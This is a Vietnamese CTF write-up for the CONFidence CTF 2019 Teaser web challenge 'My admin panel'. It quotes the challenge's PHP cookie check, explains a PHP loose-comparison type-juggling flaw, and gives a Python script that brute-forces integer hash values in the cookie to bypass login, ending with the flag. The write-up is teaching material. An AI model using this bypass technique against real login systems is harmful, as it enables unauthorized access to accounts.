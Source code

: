 ```yaml
---
layout: post
title: CONFidence CTF 2019 Teaser
---
```

# CONFidence CTF 2019 Teaser
Giải do team p4 tổ chức, có khá nhiều bài hay :))) Nhưng là mới chỉ là Teaser thôi nên mình vẫn chưa ngập hành. 


![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con1.png "CONFidence CTF 2019")

# My admin panel (Web)
[Link Challenge](https://gameserver.zajebistyc.tf/admin/)

Vào challenge mình thấy có ngay 2 file là login.php và login.php.bak (File Backup)

![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con2.png "/admin")

Nội dung file index.php.bak

```PHP
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Đọc hiểu code thì nó sẽ lấy giá trị của cookie `otadmin` check xem có dạng /^{"hash": [0-9A-Z\"]+}$/ hay là không
Nói dễ hiểu hơn thì cookie sẽ phải có dạng json {"hash" : "abcxyz123jj"} thì pass cái if 1 và if 2 if 3
để pass cái if thứ 4 thì cái giá trị của hash khi parse vào phải bằng với giá trị của `strtoupper(MD5($cfg_pass))`

Nếu không thể pass if 4 nó sẽ gợi ý cho mình bằng function sau 

```PHP

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }
```

Output:

```
0 0 0 64 64 64 0 64 0 0 64 0 0 0 64 64 64 64 0 0 0 64 0 0 64 0 64 0 64 64 0 0
```

Sau 1 hồi nghịch ngợm với cái đống này thì mình phát hiện ra 1 điều 
Nếu `ord(MD5($cfg_pass)[$i])` return từ 0 - 63 thì `ord(MD5($cfg_pass)[$i]) & 0xC0` = 0
Còn lại thì sẽ ra 64, điều đó đồng nghĩa với việc với 1 mỗi 1 con số từ 0-9 -> sẽ có 1 số 0 
và nếu là kí tự , thì sẽ có số 64 
So sánh với Output ở trên mình sẽ có 3 giá trị đầu tiên là number , và giá trị thứ 4 là character 

Tất nhiên là không thể brute được cái cfg_pass là gì, làm gì có cái mùa xuân đó, nếu brute được thì chắc mất cả năm 
Nên mình nhìn lại toàn bộ source code 1 lần nữa thì dòng này khiến cho mình chú ý 

```PHP
if ($session_data['hash'] != strtoupper(MD5($cfg_pass)))
```

Tại sao là `!=` chứ không phải là `!==` ? PHP Type Juggling ? Trùng hợp là 3 kí tự đầu tiên lại là number 
Chắc chắn là Type Juggling 

Solution: 

```python
import requests,json
def bruteCookie(i):
    url = "https://gameserver.zajebistyc.tf/admin/login.php"
    cookie = json.dumps({
        "hash" : (i)
    })
    cookie = {"otadmin" : cookie}
    print (cookie)
    answer = requests.get(url,cookies=cookie)
    if not "I CAN EVEN " in answer.text:

        print answer.text


for i in range(1,999):
    bruteCookie(i)
```

Flag : `p4{wtf_php_comparisons_how_do_they_work}`

